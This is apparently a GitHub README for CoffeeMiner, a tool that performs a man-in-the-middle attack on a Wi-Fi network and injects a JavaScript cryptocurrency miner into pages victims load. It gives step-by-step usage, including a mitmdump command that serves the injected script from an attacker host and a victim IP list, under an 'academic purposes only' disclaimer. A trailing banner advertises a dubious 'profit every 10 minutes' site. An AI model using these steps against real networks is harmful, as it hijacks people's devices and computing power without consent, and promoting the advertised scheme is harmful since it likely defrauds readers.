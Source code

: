# CoffeeMiner

Collaborative (mitm) cryptocurrency mining pool in wifi networks

**Warning: this project is for academic/research purposes only.**

A blog post about this project can be read here: http://arnaucode.com/blog/coffeeminer-hacking-wifi-cryptocurrency-miner.html

![coffeeMiner](https://raw.githubusercontent.com/arnaucode/coffeeMiner/master/coffeeMiner-logo-small.png "coffeeMiner")

## Concept
- Performs a MITM attack to all selected victims
- Injects a js script in all the HTML pages requested by the victims
- The js script injected contains a cryptocurrency miner
- All the devices victims connected to the Lan network, will be mining for the CoffeeMiner


## Use
- install.sh
```
bash install.sh
```
- edit victims.txt with one IP per line
- edit coffeeMiner.py, line 28, with the coffeeMiner httpserver IP:
```py
os.system("~/.local/bin/mitmdump -s 'injector.py http://10.0.2.20:8000/script.js' -T")
```
- execute coffeeMiner.py
```
python3 coffeeMiner.py ipgateway
```

![network](https://raw.githubusercontent.com/arnaucode/coffeeMiner/master/coffeeMiner-network-attack.png "network")


A complete instructions for academic scenario can be found in https://github.com/arnaucode/coffeeMiner/blob/master/virtualbox_scenario_instructions.md



![demo](https://raw.githubusercontent.com/arnaucode/coffeeMiner/master/coffeeMiner-demo-cutted.gif "demo")


</BR>

<a href="https://golden-farm.biz/?r=1673249" target="_blank">
<img src="https://golden-farm.biz/images/promo/en/728x90.gif"
alt="Profit every 10 minutes!"></a>


